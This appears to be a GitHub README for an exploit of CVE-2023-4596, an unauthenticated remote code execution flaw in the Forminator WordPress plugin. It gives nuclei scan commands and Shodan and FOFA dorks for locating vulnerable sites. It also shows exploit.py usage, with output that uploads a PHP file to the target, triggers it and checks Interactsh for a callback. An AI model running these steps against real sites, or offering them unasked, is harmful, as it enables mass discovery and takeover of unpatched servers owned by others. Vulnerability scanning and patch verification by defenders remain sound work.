 # CVE-2023-4596 
![](https://img.shields.io/static/v1?label=Product&message=Wordpress&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Forminator%20<=%201.24.6&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Remote%20Command%20Execution&color=red)

More information see [here.](https://securityonline.info/cve-2023-4596-critical-wordpress-plugin-forminator-flaw-affects-over-400k-sites/)

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/pull/8118/files)

```
nuclei -target <target> -t CVE-2023-4596.yaml
```
```
nuclei -target <target_file> -t CVE-2023-4596.yaml
```
- Shodan dork:
```
http.html:"/wp-content/plugins/forminator"
```
- FOFA dork:
```
body="/wp-content/plugins/forminator"
```
### Usage
```
python3 exploit.py -v -u https://target-IP/?p=7
```
```
  [+] Vulnerable version found: 1.24.6
  [+] Sending payload to target
  [+] Successful file upload!

Uploaded File Location: https://target-IP/wp-content/uploads/2023/08/QotTkAFBsf.php

  [+] Sending request to uploaded file...
  [+] Successfully triggered the uploaded file!
  [+] Check Interactsh for an incoming request.
```

